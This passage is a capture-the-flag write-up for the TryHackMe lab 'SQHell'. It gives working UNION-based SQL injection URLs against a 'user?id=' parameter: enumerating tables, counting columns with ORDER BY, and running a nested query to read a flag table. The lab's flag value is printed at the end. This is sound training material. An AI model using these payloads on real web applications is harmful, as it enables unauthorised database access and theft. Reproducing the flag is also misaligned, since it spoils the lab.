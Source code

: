 Next we want to see the tables in the database and can use the same query as before:

{% code overflow="wrap" %}
```
http://sqhell.thm/user?id=1337 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()
```
{% endcode %}

However this time when we ask for all tables using group\_concat we only see the one user table:

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We know a different database contains the posts table, but we find the expected flag table can’t be queried here. It’s at this point that we need to go back to the hint about running a query inside a query. And we again need to determine the number of columns:

{% code overflow="wrap" %}
```
http://sqhell.thm/user?id=1337 union select "1 order by 1-- -",2,3 from information_schema.tables where table_schema=database()
```
{% endcode %}

![sqhell-users-order](https://pencer.io/assets/images/2021-06-22-21-53-38.png)

Here I’ve just added an ORDER BY query to the end of the UNION SELECT 1, and enclosed it in quotes so it gets evaluated. As before we keep adding columns until we something changes:

{% code overflow="wrap" %}
```
http://sqhell.thm/user?id=1337 union select "1 order by 1,2,3,4,5-- -",2,3 from information_schema.tables where table_schema=database()
```
{% endcode %}

![sqhell-users-orderby5](https://pencer.io/assets/images/2021-06-22-21-54-52.png)

We can see at five columns the posts disappear. This tells us there are four columns. Now we can use the same query as before to get the flag from the flag table:

{% code overflow="wrap" %}
```
http://sqhell.thm/user?id=1337 union select "1 union select 1,flag,3,4 from flag-- -",2,3 from information_schema.tables where table_schema=database()
```
{% endcode %}

`THM{FLAG4:BDF317B14EEF80A3F90729BF2B426BEF}`&#x20;

### Done!

